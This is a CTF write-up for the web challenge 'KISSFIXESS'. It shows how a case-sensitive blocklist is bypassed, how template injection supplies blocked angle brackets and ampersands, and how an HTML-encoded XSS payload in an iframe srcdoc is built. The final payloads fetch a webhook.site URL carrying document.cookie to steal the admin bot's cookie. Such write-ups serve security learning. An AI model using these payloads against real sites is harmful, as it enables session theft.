 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py

```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```
<br />
As we can see the banned list check doesn't check for capital case letters.
<br />
```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```
<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting a xss using open and closing tag but it's blocked but we have an ssti here in render_page function 
<br />

```py

    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```

<br />
So we can access anything from banned list which contain our needed string using the ssti we have the open and closing tag for xss in banned here, so to get `<` for example
we can do `${banned[1]}` this will get us `<`
Let's try get `<` : 
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/2.png">
<br />
As we can see it worked now can get a working payload like `<img src=x onerror=alert()>`

I replaced s with S and l with L 
<br />
```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/3.png">
<br />

But if we want to insert the webhook it will contain a lot of things that blocked but we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 

Let's make a script that will help us convert everything 
<br />

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

But when we try it it's rendered as text we can use iframe to load it as html

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```

<img>

Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

<img>

Got a callback, Let's report to the bot:

<img>

We didn't get callback, looking at the bot, Found this option that will disable image loading:

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```
Let's try another payload that doesn't contain an image

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:

<img>
